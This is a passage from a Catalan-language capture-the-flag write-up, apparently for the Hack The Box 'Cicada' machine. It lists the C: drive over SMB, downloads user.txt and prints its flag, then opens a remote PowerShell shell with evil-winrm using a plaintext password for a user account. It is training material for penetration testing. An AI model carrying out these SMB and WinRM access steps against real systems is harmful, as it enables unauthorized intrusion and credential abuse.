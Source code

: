 ```
  pagefile.sys                      AHS 738197504  Mon Oct 14 17:45:59 2024
  PerfLogs                            D        0  Thu Aug 22 20:45:54 2024
  Program Files                      DR        0  Thu Aug 29 21:32:50 2024
  Program Files (x86)                 D        0  Sat May  8 11:40:21 2021
  ProgramData                       DHn        0  Fri Aug 30 19:32:07 2024
  Recovery                         DHSn        0  Thu Mar 14 20:41:18 2024
  Shares                              D        0  Thu Mar 14 13:21:29 2024
  System Volume Information         DHS        0  Thu Mar 14 12:18:00 2024
  temp                                D        0  Mon Oct 14 19:05:56 2024
  Users                              DR        0  Mon Aug 26 22:11:25 2024
  Windows                             D        0  Mon Sep 23 18:35:40 2024

                4168447 blocks of size 4096. 329365 blocks available
smb: \> 

```

Ara, estem a la C:, per tant hem de mirar d'obtenir la flag de l'usuari, i després d'estar fent voltes una estona per el Windows, la trobem i la descarreguem:
```
smb: \Users\emily.oscars.CICADA\> cd Desktop\
smb: \Users\emily.oscars.CICADA\Desktop\> dir
  .                                  DR        0  Wed Aug 28 19:32:18 2024
  ..                                  D        0  Thu Aug 22 23:22:13 2024
  user.txt                           AR       34  Mon Oct 14 17:46:54 2024

                4168447 blocks of size 4096. 324797 blocks available
smb: \Users\emily.oscars.CICADA\Desktop\> get user.txt 
getting file \Users\emily.oscars.CICADA\Desktop\user.txt of size 34 as user.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

I ja tenim la flag de user.txt:
```
┌──(kali㉿kali)-[~]
└─$ cat user.txt
7a5ef83ddc0b8a6774f5534a5cd008f3
```

Ara, per escalar privilegis utilitzarem la eina evil-winrm. evil-winrm és una eina utilitzada per establir una shell remota a un sistema Windows mitjançant WinRM. Per fer-la servir, hem de tenir:

-Credencials d'usuari vàlides.
-Accés a la WinRM (normalment pel port 5985 o 5986).

Un cop connectat amb evil-winrm, tenim una shell interactiva i podem intentar executar comandes per escalar privilegis. Ara doncs, ens connectem:
```
──(kali㉿kali)-[~]
└─$ evil-winrm -i cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                   
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                     
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> 
```
